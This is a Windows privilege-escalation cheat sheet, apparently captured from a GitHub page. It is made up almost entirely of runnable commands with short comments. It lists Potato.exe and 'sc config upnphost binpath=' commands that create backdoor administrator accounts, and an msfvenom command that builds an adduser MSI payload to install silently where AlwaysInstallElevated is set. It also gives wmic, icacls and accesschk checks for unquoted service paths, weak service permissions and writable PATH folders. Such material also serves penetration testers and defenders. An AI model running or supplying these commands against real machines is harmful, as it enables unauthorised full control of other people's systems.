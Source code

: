 ~~~
Potato.exe -ip 127.0.0.1 -cmd "net user tater Winter2016 /add && net localgroup administrators tater /add" -disable_exhaust true
https://github.com/breenmachine/RottenPotatoNG
~~~
# Check to exploit trusted service paths. 
~~~
wmic service get 
name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """ 
wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\" |findstr /i /v """ 
icacls "C:\Program Files (x86)\Privacyware"
1. List all unquoted service paths.
2- Check folder permissions on results. Look for M (modify) or W (write) for current user. 
~~~
# Check to exploit vulnerable services. 
# Accesscheck will determine which service bin paths can be modified.
~~~
Check:
accesschk.exe -uwcqv  "Authenticated Users" c:\*  /accepteula 
accesschk.exe -qwsu "Authenticated Users" c:\*
sc qc <SERVICE_NAME>
Exploit:
sc config upnphost  binpath= "net localgroup Administrators backdoora /add" depend= "" 
sc config upnphost  obj= ".\LocalSystem" password= ""  
binpath= "net localgroup Administrators backdoora /add" 
sc config upnphost  obj= ".\LocalSystem" password= "" 
Then we can use sc qc to determine the properties, you want to look for the following listed below.
Look for:
- SERVICE_CHANGE_CONFIG 
- SERVICE_ALL_ACCESS 
- GENERIC_WRITE 
- GENERIC_ALL 
- WRITE_DAC 
- WRITE_OWNER 
https://www.gracefulsecurity.com/privesc-insecure-service-permissions/ 
https://labs.mwrinfosecurity.com/assets/BlogFiles/mwri-windows-services-all-roads-lead-to-system-whitepaper.pdf
~~~
# Is elevated installations enabled on the server? We can exploit that.
~~~
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated 
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
~~~
# Use MSFvenom to create msi exploit. 
~~~
msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi -o rotten.msi
msiexec /quiet /qn /i C:\Users\Steve.INFERNO\Downloads\rotten.msi     
First check the registry, both must be set to 1.
~~~
# %PATH% exploit.
~~~
for %a in ("%path:;=";"%") do accesschk.exe  /accepteula -dqv "%~a"
~~~